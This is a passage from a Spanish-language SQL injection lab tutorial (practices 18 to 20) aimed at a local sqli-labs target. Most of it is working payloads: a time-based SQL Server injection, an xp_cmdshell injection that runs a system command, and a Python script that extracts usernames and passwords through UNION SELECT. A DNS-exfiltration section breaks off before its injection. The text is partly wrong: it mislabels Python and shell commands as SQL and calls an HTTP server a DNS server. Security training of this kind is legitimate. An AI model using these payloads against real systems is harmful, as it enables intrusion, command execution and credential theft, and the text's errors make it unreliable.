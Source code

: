 3. SQL Server SQLi:

   ```sql
   ' OR 1=1; WAITFOR DELAY '0:0:5' --
   ```
   
4. Evadiendo detección en SQL Server:

   ```sql
   ' OR 1=1; EXEC xp_cmdshell('whoami') --
   ```

📌 **💡 Consejo:** **SQL Server permite ejecución de comandos en el sistema si `xp_cmdshell` está habilitado.**

------

## **🔹 PRÁCTICA 19: Automatización de Ataques SQLi con Python**

📌 **Objetivo:** Crear un script en Python para SQLi automatizado.

### **🔹 Paso a Paso**

1. Instala requests:

   ```sql
   pip install requests
   ```
   
2. Crea un script en Python:

   ```sql
   import requests
   url = "http://localhost/sqli-labs/Less-1/?id="
   payload = "' UNION SELECT 1,username,password FROM users --+"
   response = requests.get(url + payload)
   print(response.text)
   ```

3. **Ejecuta el script y analiza la respuesta.**

------

## **🔹 PRÁCTICA 20: Uso de DNS Exfiltration para Filtrar Datos**

📌 **Objetivo:** Exfiltrar datos a un servidor externo usando `LOAD_FILE()`.

### **🔹 Paso a Paso**

1. Configura un servidor DNS en Kali Linux:

   ```sql
   sudo python3 -m http.server 8080
   ```
   
2. Ejecuta la inyección:
